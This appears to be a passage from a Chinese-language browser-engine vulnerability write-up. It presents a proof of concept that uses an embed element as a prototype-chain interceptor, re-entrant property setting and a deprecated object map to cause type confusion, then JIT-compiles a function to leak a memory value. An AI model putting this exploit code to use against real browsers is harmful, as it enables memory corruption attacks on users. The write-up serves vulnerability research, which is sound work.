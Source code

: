 根据debug信息可以得到注释中的结论，之后根据该代码去实现在拦截器中将object的map设置为deprecated。

### 2.1 poc

```
global_object = `{``}`;

setPropertyViaEmbed = (object, value, handler) =&gt; `{`
const embed = document.createElement('embed');
embed.onload = handler;//遍历到拦截器后调用的js代码
embed.type = 'text/html';
Object.setPrototypeOf(global_object, embed); //将embed（拦截器）设置到原型链中
document.body.appendChild(embed);
object.corrupted_prop = value;//通过访问obj中不存在的命名属性触发SetPropertyInternal
embed.remove();
`}`

createCorruptedPair = (value_1, value_2) =&gt; `{`//object1主要用于将object2的map设置为deprecated
const object_1 = `{`
__proto__: global_object
`}`;
object_1.regular_prop = 1;

setPropertyViaEmbed(object_1, value_2, () =&gt; `{`
Object.setPrototypeOf(global_object, null);
object_1.corrupted_prop = value_1;
`}`);

const object_2 = `{`
__proto__: global_object
`}`;
object_2.regular_prop = 1;

setPropertyViaEmbed(object_2, value_2, () =&gt; `{`
Object.setPrototypeOf(global_object, null);
object_2.corrupted_prop = value_1; //在重入的过程中创建刚才不存在的命名属性。
object_1.regular_prop = 1.1//设置map为deprecated
`}`);
return [object_1, object_2];
`}`
```

主要的地方已经以注释的形式写在了poc中，下面是实现混淆的代码：

```
const array = [1.1];
array.prop = 1;
const [object_1, object_2] = createCorruptedPair(array, target); //root case

jit = (object) =&gt; `{`
return object.corrupted_prop[0];
`}`
for (var i = 0; i &lt; 100000; ++i)
jit(object_1);
var leak = jit(object_2);

console.log('0x' + hex(d2u(leak)[0]));
```

